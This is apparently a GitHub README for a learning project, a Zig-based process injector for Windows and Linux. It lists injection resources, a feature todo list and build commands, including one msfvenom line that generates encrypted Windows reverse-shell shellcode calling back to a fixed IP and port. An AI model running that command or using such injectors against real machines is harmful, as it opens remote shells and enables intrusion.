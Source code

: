 # ZInjector

Simple Process injector for Windows and Linux written in Zig.

## DISCLAIMER

This is my first project in Zig. The goal is to learn Zig and perform process injection.
I haven't decided what to implement yet, but the first steps are to learn Zig and implement simple DLL injection. Next, I will move on to a similar project for Linux, such as LD_PRELOAD hijacking or ptrace-based injection.

## Some cool resource for learning Zig and Process Injection

- [Zig Guide](https://zig.guide/)
- [Zig Standard Library](https://ziglang.org/documentation/master/std/)
- [LearnXInYMinutes](https://learnxinyminutes.com/zig/)
- [Process Injection Techniques](https://www.ired.team/offensive-security/code-injection-process-injection)
- [MITRE](https://attack.mitre.org/techniques/T1055/)
- [DLL Injector C++](https://github.com/leetCipher/Malware.development/tree/main/dll-injector)
- [Cool cheasheet (zig_in_depth)](https://codeberg.org/dude_the_builder/zig_in_depth)
- https://github.com/marlersoft/zigwin32/tree/main
- https://raw.githubusercontent.com/marlersoft/zigwin32/refs/heads/main/win32/everything.zig
- https://black-hat-zig.cx330.tw/
- https://privdayz.com/tools/shellcode-gen

## Dev

- Zig Version: 0.15.1
- OS: Arch Linux
- IDE: Zed
- LSP: zls and clangd

Deps for cross-compiler on linux:  mingw-w64-headers,mingw-w64-gcc

## Todo:

- [x] PoC
- [x] Resolution of relative path to absolute path
- [x] Search process by name
- [x] Implement arguments parsing
- [ ] Thread Hijacking
  - [ ] Implement search by name also in Thread Hijacking

## Command:

- Compile: `zig build -Dtarget=x86_64-windows -Doptimize=ReleaseSmall --summary all`
- Test: `zig build test --summary all`
- Shellcode generatore `msfvenom -p windows/shell_reverse_tcp LHOST=172.19.192.194 LPORT=8080 -f zig --encrypt xor --encrypt-key ciao
`
